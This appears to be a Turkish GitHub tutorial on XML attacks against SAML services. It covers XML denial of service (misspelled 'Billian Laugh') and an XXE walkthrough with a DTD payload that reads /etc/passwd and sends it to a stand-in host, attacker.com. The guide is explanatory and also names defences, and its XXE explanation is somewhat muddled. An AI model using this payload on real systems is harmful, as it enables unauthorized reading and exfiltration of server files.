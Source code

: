 **XML DoS Saldırıları (Billian Laugh Attack)**: XML DoS saldırıları, büyük, karmaşık veya kötü biçimlendirilmiş XML verileriyle bir sistemde hizmet kesintisi oluşturmayı amaçlar. Bu saldırılar, hedef sistemdeki XML işlemcinin kaynakları tüketmesine neden olur.
Billian Laugh Attack, özellikle SAML uygulamalarında yaygın bir XML DoS saldırısıdır. Saldırganlar, bir XML dosyasını öyle bir şekilde biçimlendirirler ki, işlemci tarafından çözülmesi uzun süre alır ve aşırı kaynak tüketimine neden olur. Bu durumda sistem, saldırganın yaratıcı biçimlendirme nedeniyle aşırı yüklendiği için normal işlevselliğini yerine getiremez ve hizmet kesintisi yaşanır.

Bu güvenlik açığı, kötü niyetli saldırganların SAML uygulamasını istismar etmelerine ve sistemdeki hassas verilere erişmelerine veya hizmet kesintisi oluşturmalarına izin verebilir. Bu tür saldırılara karşı koymak için giriş doğrulamasının güçlendirilmesi, DTD işlemesinin devre dışı bırakılması veya güvenli XML işlemcilerinin kullanılması gibi önlemler alınmalıdır.

Şimdi sizlere bu atak çeşitleri hakkında bilgilendirmeler yapacağım. Unutmamanız gereken şey bu tam bir çözüm değildir. Her gün yeni saldırı türleri keşfedilmekte ve saldırı yüzeyleri sürekli olarak değişmektedir. Burada sizlere temel atmayı amaçlamaktayım. 

<hr>

### Atak Türlerine göz atalım

Burada bildiğim atak türlerini anlatacağım. Bugüne özel eksiklerim bir ihtimalle olabilir. Bunları düzeltmek için PR atabilir veya issue açabilirsiniz. Anlatacağım atak türleri hakkında senaryolar oluşturacak ve kod örnekleri vereceğim. 
<hr>

**Internal Subset Attack (İçerik Alt Kümesi Saldırısı)** : Saldırgan, <!ENTITY> bildirimleriyle bir DTD içerik alt kümesi oluşturarak hassas sistem bilgilerine erişebilir:

Senaryo: İlk olarak size <!ENTITY üzerine saçma sapan xxe yazın ve direkt olarak ekranda büyülü bir şekilde /etc/passwd dönsün demeyeceğim. Bunu gidip internet üzerindeki herhangi bir alanda bulabilirsiniz biz varsayılan zafiyetli SAML'a biraz daha farklı saldıracağız.

- Saldırgan, hedef SAML servisine göndermek üzere kötü niyetli bir XML içeriği oluşturur.

- XML içeriği aşağıdaki gibi bir DTD (Document Type Definition) içerir:

```
<!DOCTYPE root [
    <!ENTITY % internalSubset SYSTEM "file:///etc/passwd">
    <!ENTITY % payload "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%internalSubset;'>">
    %payload;
    %internalSubset;
]>
Bu DTD, bir içerik alt kümesi tanımlar ve iki adet dış varlık (%internalSubset ve %payload) oluşturur.
```

- %internalSubset dış varlığı, "file:///etc/passwd" adresine işaret eder. Bu, saldırganın /etc/passwd dosyasının içeriğini elde etmek istediği yerdir.

- %payload dış varlığı, exfil adında bir dış varlık oluşturur ve içeriğini "http://attacker.com/?data=%internalSubset;" adresine yönlendirir. Burada, %internalSubset dış varlığının değeri kullanılır.

- Saldırgan, %payload ve %internalSubset dış varlıklarını XML içeriği içinde kullanır: ` <root></root> `
